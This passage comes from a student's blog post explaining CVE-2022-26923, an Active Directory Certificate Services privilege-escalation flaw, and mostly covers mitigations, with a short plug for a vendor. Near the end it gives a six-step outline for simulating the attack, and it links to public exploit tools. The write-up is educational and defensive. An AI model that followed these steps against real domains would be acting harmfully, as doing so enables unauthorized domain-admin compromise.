
The screenshot I took from the author of this exploit's Github page shows here that ==Shadow Credentials attack== is performed by adding a new "Key Credential" to the target account. The Key Credential can then be used with the PKINIT Kerberos extension for authentication and to authenticate with the Key Credential to retrieve the **NT hash**.





**_In order not to make you bored with details, I will leave the rest for you, if interested, you can check the links I added in the end as reference or read this lovely post by the author of the exploit and the explorer of this vulnerability._-**

[Certipy 2.0 BloodHound, New Escalations, Shadow Credentials, Golden Certificates.pdf](../../../_resources/Certipy 2.0 BloodHound, New Escalations, Shadow Cr.pdf)


# ==Mitigation== 

There are not any Metasploit modules related to this CVE-2022-26923 at this time _(June, 2022)_ _because it is a very recent vulnerability_ and although Microsoft patched it  so fast _(May 2022)_ and confirmed that it is not exploited in the wild, there are some proof of concepts in Github repos of some of the reputable security researchers of the infoSec community, which proves the opposite. So it is needed to take the suggested actions to mitigate this attack. **When there is a Metasploit module for this vulnerability, the number of this attack will obviously rise dramatically.**

==Some mitigation suggestions are== :

   - **Update** to the latest patch released by Microsoft on May 10th, 2022.
   - **Principle of least privilege**: Ensure that Machine Account Quota is set to 0 — **A user from accounting department is not supposed to create any computer accounts on the Domain Controller **
  -   While not directly a mitigation, you can also change the ```MS-DS-Machine-Account-Quota``` attribute to ```0```, which is the value that determines the number of computer accounts that a user is allowed to create in a domain. By default, this value is set to ```10```. ==However, after May 2022 Microsoft Patch,  the default setting has changed from ```10``` to ```0```==. 
  
  _However, the security researcher who found this vulnerability also warns that this does not mitigate the vulnerability fully, since an attacker might compromise a machine account by compromising a workstation, for instance with a tool in Github like [KrbRelay](https://github.com/cube0x0/KrbRelay)._
  
-  **Harden** your AD CS environment by **restricting certificate enrollment**.
-  **Turn off AD CS** ==if== you are **not** using it in your environment.
-  Try **[Picus BREACH AND ATTACK SIMULATION](https://www.picussecurity.com/)** software and simulate real-world cyber threats. By the way, ==Picus Security is the pioneer of breach and attack simulation platforms== and has been awarded by **Gartner** _as "Cool Vendor 2019 Security and Risk Management"_ and as a _leading vendor_ in **Breach & Attack Simulation (BAS) Market** in 2020 by [Frost & Sullivan](https://www.prnewswire.com/news-releases/picus-security-has-been-recognized-as-a-leading-vendor-in-breach--attack-simulation-bas-market-2020-research-report-by-frost--sullivan-301229820.html).


- Lastly, to trace any manipulation on the ```DnsHostName``` attribute by non-DC account that may be linked to **CVE-2022–26923** exploit attempts, **utilize** the *Sigma* rule or write your rules according to your IDS, SIEM,etc.

# ==Conclusion==

**Consequently,** this is a **_serious_** vulnerability and users are recommended to update to official patch, ***otherwise***, the impact of a successful attack can cause serious issues  like unelevated users can escalate their privileges in the domain. ==**What makes it worse is that** this privilege escalation vector requires minimal effort, meaning the attacker's skill level to exploit this issue is quite low.== 

## The basic **steps to simulate this attack** in the simplest way are the following:

- Compromise the credentials of a low-privileged AD user.
- Use those credentials to enrol a new host on the domain.
- Alter the DNS hostname attribute of the Computer AD Object to that of a privileged host, such as a Domain Controller.
- Remove the SPN attributed to bypass the unique SPN conflict issue.
- Request a Machine certificate using the default template.
- Perform Kerberos authentication with the received template, now as the privileged machine account instead of our fake machine account.


### ==About the Author of this post==

[EmreYbs](https://github.com/emreYbs) is a **PatikaDev/Picus Security Bootcamp** student. 


**This topic is really complicated and my current skillset is of course not on par with its complicatedness yet.** Therefore, I have read blog posts, whitepapers, security researchers' Twitter posts and watched some Youtube PoC videos related to this CVE and I tried this vulnerability in my TryHackMe AttackBox to practice and make myself ready to understand this vulnerability. Besides, I built a VM for Active Directory Domain and installed some tools from Github and learnt a lot while practising in order to understand better by making my hands dirty. *Despite these efforts, I am not an Active Directory expert, you are advised to further research this significant vulnerability from the provided links below in order to understand better and wholly.*

==**Check the links below as a reference for the ones who would like to have **a better** and more _detailed_ explanation.**==


# ==REFERENCES== 
### for Active Directory Domain Services Elevation of Privilege Vulnerability
[(CVE-2022-26923)](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923)
1. https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923

1. https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

1. https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf

1. https://github.com/GhostPack/PSPKIAudit

1. https://www.blackhat.com/us-21/briefings/schedule/#certified-pre-owned-abusing-active-directory-certificate-services-23168

1. https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

1. https://tryhackme.com/room/cve202226923

1. https://www.sans.org/newsletters/at-risk/xxii-19/

1. https://github.com/cube0x0/KrbRelay

1. https://github.com/ly4k/Certipy

1. https://www.youtube.com/watch?v=odn0eeGN_hk  _( Motasem Hamdan, in this video, is exploiting Microsoft Windows Active Directory Certificate Service | CVE-2022-26923
and walk-throughs related TryHackMe room)_

1. https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e _(Exploit for Active Directory Domain Privilege Escalation (CVE-2022–26923)_

1. https://www.picussecurity.com/hs-search-results?term=Active+Directory+Domain+Services&type=BLOG_POST&type=LISTING_PAGE
1. https://academy.picussecurity.com/courses  *(**The MITRE ATT&CK Framework Path** videos helped me understand **Powershell injection attacks**. These learning paths are free but professional and awesome. That's why, I can recommend you should also check them.)*

1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-26923